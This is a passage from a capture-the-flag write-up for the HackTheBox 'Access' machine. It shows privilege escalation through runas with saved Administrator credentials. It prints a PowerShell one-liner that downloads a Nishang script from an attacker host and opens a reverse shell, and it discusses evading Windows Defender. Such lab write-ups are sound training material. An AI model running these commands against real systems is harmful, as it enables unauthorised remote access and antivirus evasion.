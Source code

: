 ```
runas.exe /user:ACCESS\Administrator /savecred "powershell.exe -ExecutionPolicy Unrestricted -File C:\Users\security\onurshell.ps1"
```

In order to make ready to run our Nishang's `Powershell` script, you must add additional function call for reverse listener that we implemented via `Penelope`. Hence, I began to modify & add the necessary command.

Because I wanted to catch packet in my host machine, I point out my ip address & binding port ->

![[HTB-Access/images/40.png]]

You must comply with the manual scripting phase before you catch reverse shell connection. ->

![[HTB-Access/images/41.png]]

One-Liner shell script combination would work because I could not run in the memory when I downloaded the direct payload. 

![[HTB-Access/images/42.png]]

Reference:
https://github.com/samratashok/nishang

In my enumeration session, I recognized that system has antivirus enabled (Windows Defender). I obsessed with my execution policies ,so I found how to detect any security mechanisms enabled by system.

https://nored0x.github.io/red-teaming/windows-enumeration/

![[HTB-Access/images/43.png]]


Got it !

![[HTB-Access/images/44.png]]

It is clear that direct memory execution of the payload did not work because of the AV protection. Therefore, one-liner fully one shot reverse shell payload would work.

I was going to run the command as ->

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.45:1234/onurshell2.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.45 -Port 1984
```

Let's combine it with `runas` ->

```
runas.exe /user:ACCESS\Administrator /savecred "powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.45:1234/onurshell2.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.45 -Port 1984"
```

After my reverse shell command execution through **runas**, first it directly downloaded a file calleed **onurshell2.ps1** in my host machine then permanently run the script without writing the process to the memory. That's why, we got shell since AV (antivirus) did not create alarm for our activity.
